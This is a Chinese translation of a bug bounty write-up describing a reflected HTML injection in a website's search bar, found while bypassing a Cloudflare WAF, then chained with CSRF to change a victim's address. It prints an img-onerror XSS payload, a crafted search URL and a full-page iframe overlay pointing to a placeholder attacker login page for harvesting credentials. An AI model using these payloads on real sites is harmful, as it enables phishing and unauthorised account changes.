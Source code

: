 # HTML 注入的特例

> 原文：<https://infosecwriteups.com/the-peculiar-case-of-html-injection-d14db8440e3?source=collection_archive---------4----------------------->

> 这是我在一个私人 bug bounty 项目中发现的一个不寻常的 HTML 注入 bug。

![](img/0b0765dfbe5fc643aa51f3ad8805cf2c.png)

HTML 注入(img src:[)https://www . acune tix . com/blog/we b-security-zone/HTML-injections/](https://www.acunetix.com/blog/web-security-zone/html-injections/)

# HTML 注入和 XSS:异同

HTML 注入属于注入攻击的类别，这意味着恶意的 HTML 输入被网站信任并显示给无辜的用户。

类似于 XSS 有存储，反映，和自我 HTML 注入。HTML 注入漏洞不像 XSS(跨站点脚本)那样严重，但可以与其他漏洞联系起来造成严重影响。

XSS 和 HTML 注入之间的明显区别是，在 XSS 的情况下，人们可以将功能 javascript 注入到网站上，这使攻击者能够虚拟地执行真实用户可以做的任何任务，而仅注入 HTML 本身几乎可以破坏网站，但如果这与诸如 CSRF(跨站点请求伪造)之类的漏洞相联系，那么攻击的危险程度会增加，因为攻击成功的用户依赖性会降低。

# 错误报告

在我的案例中，HTML 注入实际上是在寻找易受攻击网站的搜索功能上的 XSS 的过程中发现的。

该网站使用了 Cloudflare WAF，这阻止了攻击者执行 XSS。搜索类似于

```
<img src=x onerror=prompt(1)>
```

Cloudflare WAF 被触发，但当我等待足够长的时间时，搜索栏的搜索预览功能会尝试加载图像并触发 XSS。

![](img/8acf2458ba95020c65402a3d9e42dd58.png)

预览特性临时在 DOM 上加载有效负载

但不幸的是，这只是一个自我 XSS，当有效载荷被搜索时，Cloudflare 就会出现。

但是我意识到 WAF 并没有阻止我在没有任何 javascript 的情况下搜索 HTML 标签。

![](img/ae9fb5c2995f6efdc7da0faa80cf3d66.png)

反映 HTML 组件

因此，当攻击者向用户发送这个链接时，HTML 将反映在搜索栏中。

```
https://vulnerable.com/search?term=%3Cimg+src%3Dx%3E
```

现在，这怎么能造成大的影响呢？

因此，一种方法是用 iframe 覆盖整个网页，攻击者可以创建一个类似于网站的虚假登录页面，这将导致用户输入将发送给攻击者的凭据。

该有效载荷可用于:-

```
<iframe src="***https:/attacker/login***" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999; scrolling="no";frameborder="0"">
```

但是这种方法的问题是，这种攻击需要多大程度的用户交互。所以我必须想出一个更好的解决方案。

我发现了[这个关于类似漏洞的报告](https://medium.com/@irounakdhadiwal999/stored-iframe-injection-csrf-account-takeover-42c93ad13f5d)，它帮助我想出了解决方案。

现在，就像我说的，用 CSRF 链接 HTML 注入可以产生更大的影响，幸运的是我在网站的地址更改功能中发现了 CSRF 的可能性。

将这两个漏洞联系起来，我使用了之前使用的 Iframe 有效负载，它的 *src* 被设置为一个 webhook 端点，该端点托管了一个自提交表单，该表单更改了用户使用 [burp Suite CSRF PoC 生成器](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc)生成的地址。

通过这种方式，用户依赖性减少了，影响增加了，因此报告被接受并被分类，最后，我得到了一笔奖金。

![](img/0adb4df2c7bfd4e1a0b6c78f29bdd43b.png)

## 如果你喜欢我的报告，请留下一堆掌声！！

[![](img/faed50c906a9b8b5291fd7e11fa49aaa.png)](https://www.buymeacoffee.com/dungeonmaster)